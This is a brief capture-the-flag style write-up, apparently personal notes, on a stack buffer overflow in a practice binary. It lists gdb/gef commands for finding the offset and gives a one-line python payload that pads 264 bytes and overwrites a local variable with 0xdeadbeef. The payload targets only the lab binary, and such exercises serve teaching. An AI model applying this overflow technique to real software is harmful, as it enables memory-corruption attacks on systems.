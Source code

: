 Run in gdb to figure out what is happening... Gosh it took me a long time to frigging configure gef

```
gdb -q ./lol
disassemble main
pattern create 700
run
pattern offset $rbp
(python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | ./lol
```

Realize that variable `code` is located at rbp -0x8\
Overwrite the variable, ironically called `code`.\
Find new location of rbp, at offset 272, likely little endian\
send random values to rbp -0x8 = 272- 8 = 264th location and send deadbeef in little endian format. Do this using python library sys

